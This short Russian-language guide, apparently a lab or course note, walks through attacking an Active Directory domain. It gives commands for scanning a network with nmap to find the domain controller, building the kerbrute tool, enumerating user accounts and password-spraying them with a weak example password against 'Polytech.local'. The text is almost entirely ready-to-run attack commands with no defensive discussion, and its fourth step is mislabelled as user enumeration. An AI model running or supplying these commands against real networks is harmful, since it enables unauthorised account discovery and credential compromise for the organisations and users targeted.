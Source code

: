 1. Сканируем сеть, узнаём ip-адрес контроллера домена и имя домена. <br>
   sudo nmap --script whois-domain.nse 192.168.0.0/16
2. Скачиваем kerbrute репозиторий, преобразуем исходный код в модули <br>
   Git clone git@github.com:ropnop/kerbrute.git<br>
   make all
3. Производим атаку «Перебор пользователей».<br>
   ./kerbrute_linux_amd64 userenum -d \$Domain_fqdn \$users_list --output \$filename <br>, где
   $Domain_fqdn – имя домена, \$users_list – файл со списком пользователей, $filename – вывод файла.<br>
   Пример: /kerbrute_linux_amd64 userenum -d Polytech.local candidate_users.txt --output users.txt
4. Производим атаку Перебор пользователей.<br>
   ./kerbrute_linux_amd64 passwordspray -d \$Domain_FQDN \$users_list \$Password <br>
   Пример: ./kerbrute_linux_amd64 passwordspray –dc 192.168.1.200 -d Polytech.local users.txt Qwerty12
